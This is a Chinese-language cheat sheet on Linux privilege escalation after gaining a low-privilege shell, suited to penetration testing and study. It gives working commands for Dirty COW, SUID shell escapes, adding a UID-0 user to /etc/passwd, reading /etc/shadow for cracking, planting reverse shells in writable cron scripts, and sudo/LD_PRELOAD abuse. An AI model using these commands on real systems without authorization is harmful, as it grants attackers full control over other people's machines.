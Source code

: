#### 概述 (Overview)
获取 Linux 系统的低权限 Shell 后，目标是提升至 root 用户权限，以获得对系统的完全控制。Linux 提权方法多样，涉及内核漏洞、配置错误、SUID/SGID 程序利用、计划任务劫持、密码复用等。

#### 初始信息收集 (Initial Information Gathering)

*   **内核与发行版信息**:
    *   `uname -a`: 内核版本、架构等。
    *   `cat /proc/version`: 内核详细信息。
    *   `cat /etc/issue` 或 `cat /etc/*-release`: 发行版名称和版本。
    *   `lsb_release -a`: (如果安装了 lsb-core)。
    *   **内核版本号解读**: 主版本.次版本.修订版本 (如 `3.10.0`)。次版本为偶数表示稳定版，奇数表示开发版。

#### 提权方法 (Escalation Techniques)

1.  **利用内核漏洞 (Kernel Exploit)**
    *   **原理**: 与 Windows 类似，利用 Linux 内核中未修复的漏洞执行代码获取 root 权限。
    *   **步骤**:
        1.  **识别内核版本**: `uname -a`。
        2.  **搜索 Exploit**: 根据内核版本和发行版信息，在 Exploit-DB, GitHub, Google 搜索对应的本地提权漏洞 (LPE) Exploit。
        3.  **获取与编译**: 下载 Exploit 源码（通常是 C 文件）。在目标机或具有相同环境的机器上使用 `gcc` 编译：`gcc exploit.c -o exploit_bin -lpthread` (可能需要 `-pthread` 或其他库链接选项)。
        4.  **上传与执行**: 将编译好的二进制文件上传到目标机可执行目录，赋予执行权限 (`chmod +x exploit_bin`)，然后运行 (`./exploit_bin`)。
    *   **脏牛漏洞 (Dirty COW - CVE-2016-5195)**:
        *   **影响范围**: Linux 内核 >= 2.6.22 至 2016 年 10 月修复前。
        *   **原理**: 利用写时复制 (Copy-on-Write) 的竞争条件，允许低权限用户修改只读内存映射，常用于修改 `/etc/passwd` 文件以创建 root 权限用户或直接修改 SUID 文件。
        *   **示例 Exploit**: [gbonacini/CVE-2016-5195](https://github.com/gbonacini/CVE-2016-5195) (此 Exp 创建一个新用户 firefart 并将其 UID 改为 0)。
            ```bash
            # 编译
            gcc -pthread dirty.c -o dirty -lcrypt
            # 执行，输入新密码
            ./dirty mypassword
            # 成功后，/etc/passwd 中 root 用户会被临时替换
            # 使用新用户 firefart / mypassword 登录或 su
            su firefart
            # 获得 root shell 后，应立即恢复 /etc/passwd (备份在 /tmp/passwd.bak)
            # 并考虑创建正常的 root 权限用户或修复权限
            ```
    *   **风险**: 内核 Exploit 可能导致系统崩溃或不稳定。

2.  **利用 SUID/SGID 程序 (SUID/SGID Exploitation)**
    *   **原理**: SUID (Set User ID) 权限允许任何用户以**文件所有者**（通常是 root）的身份执行该程序。SGID (Set Group ID) 允许以**文件所属组**的身份执行。如果一个具有 SUID root 权限的程序存在漏洞或可被用于执行任意命令，则可以用来提权。
    *   **查找 SUID/SGID 文件**:
        ```bash
        find / -user root -perm -4000 -print 2>/dev/null   # 查找 root 拥有的 SUID 文件
        find / -group root -perm -2000 -print 2>/dev/null   # 查找 root 组拥有的 SGID 文件
        find / -perm -u=s -type f 2>/dev/null             # 查找所有 SUID 文件
        find / -perm -g=s -type f 2>/dev/null             # 查找所有 SGID 文件
        ```
    *   **可利用的常见 SUID 程序**:
        *   **`nmap` (旧版本)**: 交互模式 (`--interactive`) 可能执行命令。
        *   **`find`**: `-exec` 参数可执行任意命令。`find . -exec /bin/sh \; -quit`
        *   **`vim`/`vi`**: `:!/bin/sh` 或 `:shell`。
        *   **`bash`/`sh`**: 如果 bash 被设置了 SUID (极不安全)，直接运行 `bash -p` (保留权限)。
        *   **`cp`**: 可用于覆盖敏感文件（如 `/etc/shadow`）。
        *   **`mv`**: 可用于移动敏感文件。
        *   **`more`/`less`**: 输入 `!/bin/sh`。
        *   **`nano`**: 可能通过编辑功能写入文件。
        *   **`python`/`perl`/`ruby` 等脚本解释器**: 如果被设置了 SUID，可直接执行提权脚本。
        *   **`mount`/`umount`**: 需要特定配置和条件。
        *   **`systemctl`**: `systemctl link /path/to/payload.service && systemctl enable --now payload.service` (需要一定条件)。
    *   **GTFOBins**: 一个优秀的在线资源，列出了各种 Linux 程序可被用于提权或绕过限制的方法: [https://gtfobins.github.io/](https://gtfobins.github.io/)
    *   **示例 (利用 `find`)**:
        ```bash
        # 确认 find 具有 SUID root 权限
        ls -lh $(which find)
        # 使用 find 执行 whoami (以 root 身份)
        find . -exec whoami \; -quit
        # 使用 find 获取 root shell
        find . -exec /bin/sh -p \; -quit # -p 尝试保留权限
        ```

3.  **利用错误的配置文件权限 (Misconfigured Permissions)**
    *   **/etc/passwd 可写**:
        *   **原理**: 如果 `/etc/passwd` 文件对当前用户可写，可以直接添加一个 UID 为 0 的新用户。
        *   **步骤**:
            1.  `ls -l /etc/passwd`: 检查权限。
            2.  生成密码哈希: `openssl passwd -1 -salt <salt> <password>` 或 `perl -le 'print crypt("password","salt")'`。
            3.  构造新用户行 (用户:密码哈希:UID:GID:描述:家目录:Shell): `newroot:<hash>:0:0:root:/root:/bin/bash`
            4.  将新用户行追加到 `/etc/passwd`: `echo "newroot:<hash>:0:0:root:/root:/bin/bash" >> /etc/passwd`。
            5.  使用 `su newroot` 或 SSH 登录。
    *   **/etc/shadow 可读**:
        *   **原理**: 如果 `/etc/shadow` 文件可读，可以获取所有用户的密码哈希。
        *   **步骤**: `cat /etc/shadow` -> 将哈希复制下来 -> 使用 John the Ripper 或 Hashcat 进行离线破解。
    *   **其他敏感文件可写**: 如 Sudoers 文件 (`/etc/sudoers`)、服务配置文件、脚本等。

4.  **利用计划任务 (Cron Jobs)**
    *   **原理**: 系统或 root 用户可能配置了定时执行的脚本（Cron Job）。如果这些脚本本身或其所在的目录对当前用户可写，就可以修改脚本内容或替换脚本文件，插入恶意命令（如反弹 Shell），等待任务执行时以脚本所有者（通常是 root）的权限运行。
    *   **查找计划任务**:
        *   `crontab -l`: 查看当前用户的 Cron Jobs。
        *   `ls -l /etc/cron*`: 查看系统级别的 Cron 目录 (`/etc/crontab`, `/etc/cron.d/`, `/etc/cron.daily/`, `/etc/cron.hourly/`, `/etc/cron.monthly/`, `/etc/cron.weekly/`)。
        *   `cat /etc/crontab`。
    *   **检查权限**: `ls -l <script_path>` 或 `ls -ld <script_directory>`，检查是否有写入权限。
    *   **利用**: 修改脚本，加入反弹 Shell 或其他命令。

5.  **密码复用与弱密码 (Password Reuse & Weak Passwords)**
    *   **原理**: 如果在系统中发现了其他应用（如数据库、Web 应用配置文件）的密码，或通过破解 `/etc/shadow` 获得了用户密码，尝试使用这些密码切换到 root 用户 (`su root`) 或其他高权限用户。管理员可能在不同地方使用了相同或相似的密码。

6.  **利用 Sudo 配置错误 (Sudo Misconfiguration)**
    *   **原理**: Sudo 允许普通用户以 root 权限执行特定的命令。如果 `/etc/sudoers` 文件配置不当，可能允许用户执行可用于提权的命令，或者允许执行任意命令而无需密码。
    *   **检查**: `sudo -l`: 查看当前用户被允许使用 sudo 执行哪些命令。
    *   **利用**:
        *   **允许执行的命令可提权**: 如果允许执行 `find`, `vim`, `less` 等（参考 GTFOBins）。
        *   **`NOPASSWD`**: 如果某命令配置了 `NOPASSWD`，执行时无需密码。
        *   **环境变量劫持**: 如果 `sudoers` 配置中保留了某些环境变量 (`Defaults env_keep += "LD_PRELOAD"` 等)，可能通过设置恶意环境变量（如 `LD_PRELOAD` 指向恶意 `.so` 文件）来劫持 sudo 执行的命令。

7.  **利用脚本与自动化工具 (Scripts & Automated Tools)**
    *   **LinEnum.sh**: [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum) - 详细的 Linux 信息收集和权限提升检查脚本。
    *   **linuxprivchecker.py**: [https://www.securitysift.com/download/linuxprivchecker.py](https://www.securitysift.com/download/linuxprivchecker.py) - Python 脚本，检查常见的提权向量。
    *   **unix-privesc-check**: [http://pentestmonkey.net/tools/audit/unix-privesc-check](http://pentestmonkey.net/tools/audit/unix-privesc-check) - Shell 脚本，执行一系列检查。